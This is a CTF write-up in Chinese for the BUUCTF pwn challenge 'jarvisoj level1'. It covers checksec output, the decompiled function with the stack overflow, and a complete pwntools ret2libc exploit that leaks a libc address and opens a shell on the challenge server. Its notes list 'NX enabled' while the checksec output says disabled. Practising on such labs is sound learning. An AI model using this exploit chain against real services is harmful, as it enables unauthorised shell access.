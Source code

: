 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level1
date: 2022-4-7 09:50:20
permalink: /pages/2e1547494524d1ad
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level1

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level1/level1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

vulnerable_function函数如下：

```c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  printf("What's this:%p?\n", &buf);
  return read(0, &buf, 0x100u);
}
```

## 思路分析

1. 目前信息：

   - vulnerable_function函数存在溢出点
   - No canary found
   - NX enabled
   - No PIE
   - Has RWX segments
2. 思路：
   - 有RWX权限，栈上buf地址已知，采用ret2shellcode
2. 问题
   - 本地环境与远程环境不同，远程不回显无法得到buf地址，最终采用ret2libc方案

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level1/level1'
elf = ELF(pwnfile)
io = remote("node4.buuoj.cn", 25274)
# io = process(pwnfile)
padding = 0x88+4
write_plt = elf.plt['write']
read_got = elf.got['read']
main_addr = elf.symbols['main']
payload = flat(['a'*padding, write_plt, main_addr, 1, read_got, 4])
io.send(payload)
leak_read_addr = u32(io.recv(4))
libc = LibcSearcher('read', leak_read_addr)
libc_base = leak_read_addr-libc.dump('read')
system_addr = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh])
io.send(payload)
io.interactive()
```

